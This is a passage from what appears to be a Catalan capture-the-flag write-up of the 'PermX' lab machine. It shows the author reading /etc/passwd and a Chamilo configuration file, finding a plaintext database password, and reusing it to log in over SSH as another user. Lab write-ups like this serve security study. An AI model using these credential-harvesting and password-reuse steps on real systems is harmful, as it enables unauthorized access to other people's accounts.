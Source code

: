 Al fitxer /etc/passwd hi veiem mtx també, a veure si aconseguim les seves credencials:

``mtz:x:1000:1000:mtz:/home/mtz:/bin/bash``

Després de donar moltes i moltes voltes, durant força hores, hem trobat que al fitxer següent:

``www-data@permx:/var/lib$ cat /var/www/chamilo/app/config/configuration.php``

Hi ha unes credencials d'usuari dalt de tot del fitxer:

```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;`
```

Provarem a veure si amb sort fossin les de l'usuari mtz que hem vist que existeix al servidor tot i que pel que veiem aquí són credencials d'una BD. Després de tantes hores de cerca esperem obtenir bons resultats. 

Són les credencials, hem tingut èxit:

```
┌──(polkali㉿kaliPol)-[~/Documents/PermX/chamilo-lms-unauthenticated-big-upload-rce-poc]
└─$ ssh mtz@10.10.11.23                                
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Aug  3 06:38:03 PM UTC 2024

  System load:  0.0               Processes:             256
  Usage of /:   59.2% of 7.19GB   Users logged in:       0
  Memory usage: 23%               IPv4 address for eth0: 10.10.11.23
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Aug  3 17:50:13 2024 from 10.10.14.139
mtz@permx:~$ whoami
mtz
mtz@permx:~$ id
```